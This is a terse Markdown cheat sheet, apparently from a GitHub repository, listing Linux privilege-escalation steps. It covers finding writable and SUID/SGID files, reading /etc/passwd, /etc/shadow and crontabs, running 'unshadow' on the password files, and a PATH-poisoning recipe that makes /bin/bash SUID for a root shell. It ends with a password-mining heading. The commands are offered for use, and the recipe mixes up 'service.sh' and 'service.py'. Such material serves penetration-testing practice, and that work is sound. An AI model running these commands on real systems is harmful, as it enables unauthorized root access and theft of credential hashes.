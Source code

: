 ##  Insecure File Permission
-   find all the writable files `[find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u]`
-   ls -lha /etc/passwd
-   ls -lha /etc/shadow
-   ls -lha /etc/crontab
-     unshadow passwd shadow > unshadow

##	Directory Enumeration

>   /home, /opt, /var, /srv, /etc, /mnt [check-for-any-unusual-location/different-user-directory]
>   /var/www/html, /var/mail, /var/backups, /var/opt

##  SUID / SGID
-   find / -type f -perm -04000 -ls 2>/dev/null
-   find / -perm -u=s -type f 2>/dev/null
-   find / -perm -g=s -type f 2>/dev/null

##  File Enumeration

-   /etc/passwd, /etc/shadow, /etc/group, /etc/groups, id_rsa, 
-   .bashrc, .bash_history, .profile, .viminfo, .zsh_history,.zshrc
-   .bak, .secret, 
-   cat /etc/crontab, cron.d/, cron.daily/, cron.hourly/, cron.monthly/, cron.weekly


##  PATH POISONING

-   check running crons
-   find the binary name / file name  [service.sh]
-   touch /tmp/service.sh
-   echo "chmod u+s /bin/bash" > service.py 
-   export PATH=/tmp:$PATH
-   wait for the service to run again



##	Apache Startup PE

##  Cron Jobs - File Permissions 

-     crontab -l
-     /etc/crontab
-     /var/log/cron.log
-     cat /etc/crontab, cron.d/, cron.daily/, cron.hourly/, cron.monthly/, cron.weekly

##	Password Mining [password/pass/pwd/pass=/pass='/pass="] [id_rsa/authorized_keys]
